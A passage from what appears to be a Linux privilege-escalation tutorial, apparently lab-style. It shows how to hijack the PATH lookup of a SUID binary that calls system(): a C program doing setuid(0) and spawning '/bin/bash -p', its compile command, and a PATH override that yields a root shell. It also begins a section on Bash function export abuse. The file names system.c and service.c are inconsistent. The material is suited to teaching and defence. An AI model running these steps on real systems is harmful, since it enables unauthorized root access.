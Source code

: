 ![](../../../.gitbook/assets/soi5.png)

Optionally, we can also verify with ltrace:

#### `ltrace /usr/local/bin/suid-env 2>&1 | grep service`

![](../../../.gitbook/assets/soi6.png)

This reveals that the system function is being used to execute the service program

Create a file system.c with the following contents:

#### `int main() {` ` setuid(0);` ` system("/bin/bash -p");` ` }`

Compile service.c into a file called service:

#### `gcc -o service service.c`

Prepend the current directory (or where the new service executable is located) to the PATH variable, and execute the SUID file for a root shell:

#### `PATH=.:$PATH /usr/local/bin/suid-env`

![](../../../.gitbook/assets/soi7.png)

## Abusing Shell Features

#### In some shells (notably Bash <4.2-048) it is possible to define user functions with an absolute path name. These functions can be exported so that sub processes have access to them, and the functions can take precedence over the actual executable being called.

Find SUID/SGID files on the target:
